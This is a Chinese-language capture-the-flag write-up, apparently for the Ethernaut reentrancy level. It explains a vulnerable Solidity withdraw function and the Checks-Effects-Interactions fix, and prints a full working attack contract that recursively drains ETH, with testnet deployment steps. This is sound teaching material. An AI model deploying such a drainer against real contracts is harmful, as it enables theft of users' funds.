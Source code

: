 
# level10 Re-entrancy

## 1. 问题

要求你将合约中所有的eth转出到自己的地址。合约源码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 2. 解法

本题是要求你利用合约中的`重入攻击`漏洞来实现偷eth的效果。具体的漏洞在下面几行：

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

当第一次调用 `withdraw` 函数时，if调节如果判断成功，会先调用 `msg.sender.call` 给目标地址转入eth，此时可能触发目标地址的 `fallback` 或 `receive` 函数，函数内可能会继续调用 `withdraw` 函数，形成循环。

通过循环第二次进入时，因为第一次还没有走到 `balances[msg.sender] -= _amount;` 余额扣减，所以二次调用时条件仍然满足，产生重入漏洞。

> [!CAUTION]
> * **CEI** 原则：防止重入攻击，的核心原则是采用检查-影响-交互模式（Checks-Effects-Interactions）
>    1. 先检查是否满足触发条件
>    2. 再更新（余额）等数据状态
>    3. 最后和外部交互

具体操作流程如下：

1. 编写 `HackReentrancy` 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

interface IReentrance {
    
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);
    
    function withdraw(uint256 _amount) external;
}

contract HackReentrancy {
    
    IReentrance private reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }
    
    function hack() external payable {
        // 1. 先充值
        reentrance.donate{value: msg.value}(address(this));
        // 2. 立刻提款，触发fallback
        reentrance.withdraw(msg.value);
    }
    
    fallback() external payable {
        // 1. 判断余额
        uint256 allLeft = address(reentrance).balance;
        uint256 usLeft = reentrance.balanceOf(address(this));
        if(allLeft > usLeft) {
            // 1.a 如果余额超过自己注资的钱，则按照最大量递归
            reentrance.withdraw(usLeft);
        } else if (allLeft > 0) {
            // 1.b 如果余额已经低于自己注资的钱，则可以最后一次全部取走
            reentrance.withdraw(allLeft);
        } 
        // 1.c 如果已经全部被取出来了，则停止递归调用，完成任务
    }
}
```

> [!NOTE]
> 这里我们使用了 `fallback` 实现，也可以通过 `receive` 实现

2. 在remix中编译，部署到sepolia上，[交易地址](https://sepolia.etherscan.io/tx/0x1d27b1e3efc72356ce6b9182d4edb9aad42d17d15e9406c8a41917df3992fbcc)

3. 我们通过查询区块链浏览器，发现这个合约一共有 `0.001 ether = 10^6 gwei`。

4. 调用 `hack` 合约，输入传输的 `msg.value` 为 `4 * 10^5 gwei`, [交易地址](https://sepolia.etherscan.io/tx/0x20c57b5f9719ba0ae04f6d0a42bdad786a817d0fb756313e401e777e68184570):

> [!TIP]
> 基本上这个量级或这个更大的都没问题。
> 具体关于 `msg.value` 值的分析见后续章节


![](../../resources/img/level10/success_hack2.png)

5. 上面的交易记录截图已经能看出来，我们的递归已经生效，且最后一次把剩余的余额尾巴也收走了。

6. 点击 `submit instance`， 提交通过！

## 3. 注意：不要设置过小的 `msg.value`

> [!IMPORTANT]
> 1. solidity限制了函数递归调用不能超过1024层，同时深度还受gas limit等的限制，所以我们需要精确设计递归层数，让他不要因为递归太多导致交易执行失败，结果导致什么都没捞到，反而白白损失手续费
> 2. solidity的这个特性也能推测出：即使遭遇了重入攻击，攻击者为了安全起见，大概率也不会写一个合约，通过一次调用偷走所有的资金。更大概率会通过蚂蚁搬家的方式一点点偷走资金。所以对于Dapp开发者来说，准备好应急预案，留下方便操作的应急接口，也能在出现问题时挽回一点损失。

如果我们设置一个比较小的 `msg.value` 来调用 `hack` 函数([部署地址](https://sepolia.etherscan.io/tx/0xf67e33f785470c0a0a3988f5265148cb53247c16a42094ec275b9bfd3daf4e18))，现象如下：

1. （可选）为了递归过深导致失败，我们先输入 `1.1*10^3 Gwei`, 点击 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xeeebe2eba293d3d96f06b25c3b242080d806ddbb884cc188e23049bd9852729b)

![](../../resources/img/level10/hack2.png)


执行后，能发现交易gas使用了 70w+，且可以看到internal transaction很多，说明递归次数很多:

![](../../resources/img/level10/failure_inter_txn.png)

2. 此时，如果我们继续操作，再调整成合适的手续费，比如 `5 * 10^5 Gwei` 再此调用 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xd9bb919227b25c95dae8e15a701b91b36fff7409eb7a2785d2287e51ec27fa4f), 我们会发现交易直接失败了：

![](../../resources/img/level10/failure_inter_txn2.png)


3. 如果我们进一步查询，会发现 `HackEntrancy` 合约在原始 `Reentrance` 合约中的余额已经变成一个非常大的值了：

![](../../resources/img/level10/wrong_balance2.png)

4. 这个是因为原始的 `Reentrance` 合约是 `0.6.x` 版本编译的，他没有做数字的溢出判断，导致第一次调用时，会在 `balances[msg.sender] -= _amount;` 时将我们的余额减成负数（对应的就是一个正很大的整数）。后续我们二次调用 `donate` 时，内部的加法又做了越界校验，导致校验没通过:

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

> [!NOTE]
> 到这里我们可以发现，如果原始合约中 `balances[msg.sender] -= _amount;` 也使用了 `SafeMath` 库做越界校验，也能避免重入攻击

| [⬅️ level9 King](../level9_king/README.md) | [level11  ➡️]() |
|:------------------------------|--------------------------:|